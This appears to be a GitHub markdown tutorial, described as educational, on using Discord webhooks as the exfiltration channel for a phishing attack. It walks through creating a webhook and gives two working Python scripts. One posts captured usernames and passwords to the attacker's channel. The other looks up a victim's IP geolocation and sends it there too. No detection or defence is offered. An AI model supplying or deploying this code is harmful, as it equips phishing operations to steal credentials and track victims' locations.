

## 📬 Webhook Demo: Sending to Discord

Discord webhooks can be used to simulate how data from a phishing attack might be sent to an attacker’s Discord channel. Discord allows webhook URLs for custom integrations, making it a great tool for educational demonstrations.

---

### **Step 1: Set Up a Discord Webhook**

1. Create a Discord server if you don’t already have one.
2. Navigate to the desired channel and click:
   - **Edit Channel > Integrations > Webhooks.**
3. Click **"New Webhook"** to create a webhook.
4. Customize the webhook (name, avatar, etc.) if desired.
5. Copy the **webhook URL**, which will be used to send data.

---

### **Step 2: Send Data to the Webhook**

Below is a Python script that sends sample data to your Discord webhook.

```python
import requests

# Replace with your Discord webhook URL
webhook_url = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"

data = {
    "content": "🔒 **New Login Attempt Captured**",
    "embeds": [
        {
            "title": "Login Details",
            "fields": [
                {"name": "Username", "value": "test_user", "inline": True},
                {"name": "Password", "value": "password123", "inline": True},
            ],
            "color": 16711680  # Red color
        }
    ]
}

# Send data to the Discord webhook
response = requests.post(webhook_url, json=data)

if response.status_code == 204:
    print("Data sent to Discord successfully!")
else:
    print(f"Failed to send data: {response.status_code}")
```
### 3. View the Results: 

Check the Discord channel where you set up the webhook. You should see a message with the fake login data.



### 4. Simulating Advanced Webhook Attacks

Webhook with Geolocation

Capture the victim’s IP address and location data using a geolocation API.

```python
import requests

# Replace with your webhook URL
webhook_url = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"

# Simulated victim data
ip_address = "8.8.8.8"
location_data = requests.get(f"https://ipapi.co/{ip_address}/json/").json()

data = {
    "content": "🌍 **New Victim Geolocation Captured**",
    "embeds": [
        {
            "title": "Victim Details",
            "fields": [
                {"name": "IP Address", "value": ip_address, "inline": True},
                {"name": "City", "value": location_data['city'], "inline": True},
                {"name": "Country", "value": location_data['country_name'], "inline": True},
            ],
            "color": 65280  # Green color
        }
    ]
}

response = requests.post(webhook_url, json=data)

if response.status_code == 204:
    print("Geolocation data sent to Discord!")
else:
    print(f"Failed to send data: {response.status_code}")
```
